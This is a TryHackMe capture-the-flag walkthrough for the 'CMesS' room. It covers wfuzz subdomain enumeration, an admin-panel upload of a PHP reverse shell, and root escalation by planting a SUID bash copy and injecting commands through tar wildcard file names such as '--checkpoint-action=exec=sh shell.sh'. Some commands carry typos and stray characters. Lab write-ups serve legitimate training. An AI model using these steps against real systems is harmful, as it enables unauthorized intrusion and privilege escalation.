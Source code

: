 ```yaml
---
title: CMesS WalkThrough
permalink: /cmess
layout: page
tags: TryHackMe
---
```

# CMesS
# ![front](/images/cmess/front.png)
[https://tryhackme.com/room/cmess](https://tryhackme.com/room/cmess)

**Add ipi cmess.th to `/etc/hosts`**
## Open Ports:
* 22- SSH
* 80- HTTP

![ports](/images/cmess/ports.png)

## Gaining Access:
### Port 80-
1. Do `wfuzz` _for subdomain enum_
```
wfuzz -c -f sub-fighter -w /usr/share/wfuzz/wordlist/top5000 -u 'http://cmess.thm' -H "Host: FUZZ.cmess.thm"
```
**To sort the output**
```
wfuzz -c -f sub-fighter -w /usr/share/wfuzz/wordlist/top5000 -u 'http://cmess.thm' -H "Host: FUZZ.cmess.thm" --hw 290
```
![wfuzz](/images/cmess/wfuzz.png)
2. Add ip dev.cmess.thm to /etc/hots 
	a. Find email 
	b. Password
3. Do dirb 
	a. Found ip/admin page
4.  login 
	a. Go to content / file / upload 
	b. upload
5.  go to ip/assests/php-rev
6. Upload linEum.sh
	a. Found /opt/password.bak
![bak](/images/cmess/bak.png)

### User Flag:
![flag](/images/cmess/flag.png)

## Priviledge Escalation
```
cat /etc/crontab
```
![cron](/images/cmess/cron.png)
```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/andru/shell.sh
Chmod +x  shell.sh
```
**Tar specific commands:**
Ø Touch /home/user/--checkpoint=1
Ø Touch /home/user/--checkpoint-action=exec=sh\shell.sh
# wait for min
Ø /tmp/bash -p

### ROOT Flag:
![root](/images/cmess/root.png)